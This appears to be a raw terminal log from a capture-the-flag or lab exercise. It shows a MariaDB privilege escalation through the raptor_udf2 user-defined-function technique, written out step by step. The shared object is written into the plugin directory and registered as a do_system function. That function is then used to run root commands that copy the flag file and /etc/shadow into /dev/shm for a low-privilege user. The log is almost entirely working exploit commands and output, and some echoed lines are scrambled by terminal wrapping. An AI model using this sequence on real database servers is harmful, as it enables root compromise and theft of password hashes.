 ```bash
show variables like '%plugin%';
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
2 rows in set (0.001 sec)

MariaDB [mysql]> create table foo(line blob);
create table foo(line blob);
Query OK, 0 rows affected (0.006 sec)

MariaDB [mysql]> insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
Query OK, 1 row affected (0.003 sec)

MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
adb19/plugin/raptor_udf2.so';le '/usr/lib/x86_64-linux-gnu/mari 
Query OK, 1 row affected (0.001 sec)

MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
o';ate function do_system returns integer soname 'raptor_udf2.s 
Query OK, 0 rows affected (0.001 sec)

MariaDB [mysql]> select * from mysql.func;
select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+

MariaDB [mysql]> select do_system('cat /root/root.txt > /dev/shm/flag.txt; chown svc:svc /dev/shm/flag.txt');
 svc:svc /dev/shm/flag.txt');oot.txt > /dev/shm/flag.txt; chown 
+--------------------------------------------------------------------------------------+
| do_system('cat /root/root.txt > /dev/shm/flag.txt; chown svc:svc /dev/shm/flag.txt') |
+--------------------------------------------------------------------------------------+
|                                                                                    0 |
+--------------------------------------------------------------------------------------+
1 row in set (0.003 sec)

MariaDB [mysql]> select do_system('cat /etc/shadow > /dev/shm/shadow; chown svc:svc /dev/shm/shadow');
svc /dev/shm/shadow');/etc/shadow > /dev/shm/shadow; chown svc: 
+-------------------------------------------------------------------------------+
| do_system('cat /etc/shadow > /dev/shm/shadow; chown svc:svc /dev/shm/shadow') |
+-------------------------------------------------------------------------------+
|                                                                             0 |
+-------------------------------------------------------------------------------+
1 row in set (0.004 sec)
```
